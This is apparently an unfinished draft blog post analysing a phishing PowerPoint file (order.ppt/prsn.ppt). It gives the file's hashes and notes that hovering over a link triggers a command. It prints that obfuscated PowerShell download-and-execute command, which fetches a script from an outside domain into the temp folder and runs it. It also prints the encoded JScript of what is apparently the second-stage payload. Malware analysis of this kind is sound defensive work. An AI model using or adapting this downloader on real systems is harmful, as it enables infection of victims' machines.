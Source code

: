 +++
title = "Analysis of the order&prsn.ppt malicious powerpoint"
date = 2024-03-11T20:03:02+02:00
draft = true
tags = ["order&prsn.ppt","maldocs","ppt"]
categories = ["Phishing","Malicious_documents"]
ShowToc = true
author = ["connar"]
+++

## Analysis of the order&prsn.ppt document
This post will be for the analysis of a malicious ppt document better known as order.ppt or prsn.ppt. General info about this document:
- MD5: 3bff3e4fec2b6030c89e792c05f049fc
- SHA256: 796a386b43f12b99568f55166e339fcf43a4792d292bdd05dafa97ee32518921

## Techniques used in the document
This document used an onhoven action on a link inside the document to try and invoke a powershell command. Afterwards, it ... 


### Powershell command
Initially, the first command used is the following powershell command which gets triggered upon hoverup on the hyperlink:  
![powershell command](/posts/malicious_ppt_1/powershell_command.png)
The command is:
```ps
powershell -NoP -NonI -W Hidden -Exec Bypass "IEX (New-Object System.Net.WebClient).DownloadFile('http:'+[char] 0x2F+[char] 0x2F+'cccn.nl'+[char] 0x2F+'c.php',\"$env:temp\ii.jse\"); Invoke-Item \"$env:temp\ii.jse\""
```

We can further deobfuscate this command using engines like [tio.run](https://tio.run/):  
![tio.run](/posts/malicious_ppt_1/tioRun_powershell.png)  

So this command tries to:  
- download a file named "c.php" from h[x][x]p://cccn.nl/c.php
- outputs the contents of this file to the temp directory and specifically to a file named ii.jse

Unfortunately, the domain does not exist anymore to be able to download the ii.jse for further analysis. But to my luck, I could find the contents of it in [Hybrid Analysis strings part](https://www.hybrid-analysis.com/sample/55821b2be825629d6674884d93006440d131f77bed216d36ea20e4930a280302?environmentId=100):
```jse
#@~ ^ jh0FAA == dm3rRHmD / 2, {;x9 + Wk + [Ikl3b00KD: \x7f.\l0k o1Fx;Nn0bU + 9 idC0k % 324 + dEkqZ '; N\x7f0k +9I/m3r%Str^4GF{;x9+0bUnNp/m3r%.n7knh:4+l*x; N+Wr +[ikC0k0(DKkVk&WxE Nn0bxn[p/l0r%1WxDUO/:tmxq';U9 + Wk nNp / CVb % ors9 + [, Rx!x[\x7f0 bx + 9 ikC3b % nlMY4\x7f 2 'E [+6kx\x7f[I/m3b%nl.O4vf'!UN\x7f 0 rU\x7f NidC0k0Y4n\x7f Ff { E N + 6 k nNp / C3b % 5;bm32T '!xN\x7fWrx\x7fNp/C3r0Dkh+lq'!x[n6kxn[p / C3b04W;M &amp;U9 + Wk n9idm3b % /DDKUol!xE NnWbx+9I/m 3 kRhGD\x7f 2 ';x[n6kU+9I/m3r04+k.dtlzv2x!x[\x7f0bx+9ikC3b%Ot\x7fx+q{Ex9n0bx+9Idl0kRw.kU^\x7f/**{;x9+Wr +NIdm3r%MCM+jbx1+*F'!UN\x7f 0 rx\x7f NI - mDPkC3b % tm - nKKo\x7f Y4 + .*R '`/D1l=0;U1YkGUvl8+MOByS ~s# M+D;D PjYMkUL]J0MG:;tlMEQJ;Wr_EJQE9+ETvc_EFqqE#_Xb)~.+7r\x7f*lEFy&B)$EdYOlvTv0;U1YkKU`* D\x7fO;D PDD;+INB!S!Bq#3 hCM4V0C=0;x1ObWUvl(+DD~.SxB:b M+O;MxPUODbxo]EWDK:;tCDEQrZGJ3EJ3J[nrT`cQEFT,Eb3*b)~kYE9kRlBO*v8]BhCM4VRCBY`0!U^YbW `b .nDE.x,OD!+INB!~TS8#Q snDl1m)6Ex1YbGxvl8+MYS"Bx~sb M+Y!.UPUYMkUo,E6DG:;4lMJQE;WJQEr_EN\x7fEY`c3BO B*_lb8B4.kTvlv8!&EN$E:+
```


**References**
<blockquote>
    <ul>
        <li> [1] <a href="https://www.youtube.com/watch?v=72Ztp7NNWqc">cybercdh: <i>Malicious Powerpoint and .jse behavioural and code analysis</i></a></li>
        <li> [2] <a href="https://www.virustotal.com/gui/file/796a386b43f12b99568f55166e339fcf43a4792d292bdd05dafa97ee32518921">VirusTotal: <i>order&prsn.ppsx</i></a></li>
    </ul>
</blockquote>